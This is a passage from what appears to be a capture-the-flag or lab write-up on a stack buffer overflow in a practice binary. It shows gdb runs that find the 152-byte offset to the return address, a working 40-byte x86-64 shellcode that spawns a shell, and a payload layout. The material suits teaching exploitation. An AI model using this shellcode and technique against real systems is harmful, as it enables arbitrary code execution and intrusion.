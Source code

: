 line `0x0000000000400595 in main ()` is the return address

what we're trying to do is overwrite it with until we see all `A`s i.e. `\x41` all over the return address like the following:

```sh
(gdb) run $(python -c "print('A' * 158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()

(gdb) run $(python -c "print('A' * 159)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 159)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
```

you know you've gone OVER it when the return address goes from `41`s to some other bytes.

so, we now know  `158` bytes is the right amount of bytes to fill a) the buffer, b) the alignment bytes and c) the rbp (saved registers) and the 6-byte return address.

`offset = 158 - 6 = 152`

so - `152` bytes to fill the buffer (plus alignment + rbp), `6` bytes to overwrite return address.

### shellcode + return address

use this `40-bytes` shellcode:

```sh
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
```

key note from the author: simple shellcodes without an exit function messes the overflow up, check this.

we need to find the return address for the start of our shellcode, so we can put this into our overflow to jump to our code when the program is exploited.

so our payload needs to be a total bytes: `152 + return address (6) = 158` at all times.

`PAYLOAD = JUNK + SHELLCODE + JUNK + RETURN_ADDRESS` e.g. `payload = 'A'*100 + 'shellcode' + 'B'*12 + 'C'*6`

